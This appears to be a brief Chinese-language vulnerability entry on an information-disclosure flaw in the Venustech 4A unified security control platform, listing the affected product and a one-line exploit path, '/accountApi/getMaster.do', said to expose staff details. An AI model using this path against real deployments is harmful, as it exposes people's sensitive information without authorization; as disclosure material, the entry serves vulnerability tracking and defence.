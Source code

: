 #### 影响范围

启明星辰-4A统一安全管控平台

#### 漏洞概述

启明星辰集团4A统一安全管控平台实现IT资源集中管理,为企业提供集中的账号、认证、授权、审计管理技术支撑及配套流程,提升系统安全性和可管理能力。可获取相关人员敏感信息

#### 漏洞复现

凭借漏洞利用载荷：

```
/accountApi/getMaster.do
```



